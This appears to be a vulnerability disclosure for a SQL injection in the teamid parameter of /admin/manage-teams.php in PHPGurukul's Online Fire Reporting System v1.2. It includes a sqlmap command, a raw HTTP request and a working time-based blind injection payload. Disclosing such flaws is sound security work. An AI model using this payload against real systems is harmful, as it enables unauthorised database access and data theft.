 

# SQLi vulnerability in Online Fire Reporting System v1.2 of file /admin/manage-teams.php

**vender**:

- [PHPGurukul](https://vuldb.com/?vendor.phpgurukul)
- Online Fire Reporting System

**SoftLink**:

- [Online Fire Reporting System Project in PHP- PHPGurukul](https://phpgurukul.com/online-fire-reporting-system-using-php-and-mysql/)

**Vulnerable File**

- /admin/manage-teams.php

**Version**

- V1.2

### POC

```
sqlmap -r request.txt --level 5 --batch
```



```
GET /admin/manage-teams.php?teamid=100 HTTP/1.1
Host: www.firereport.top
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:139.0) Gecko/20100101 Firefox/139.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip, deflate
Cookie: PHPSESSID=vhqmp6o0p6p8lf7sscpqhrp6tf
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Priority: u=0, i
```



```
---
Parameter: teamid (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: teamid=100'+(SELECT 0x47776c66 WHERE 8457=8457 AND (SELECT 2414 FROM (SELECT(SLEEP(5)))QMWA))+'
---
```

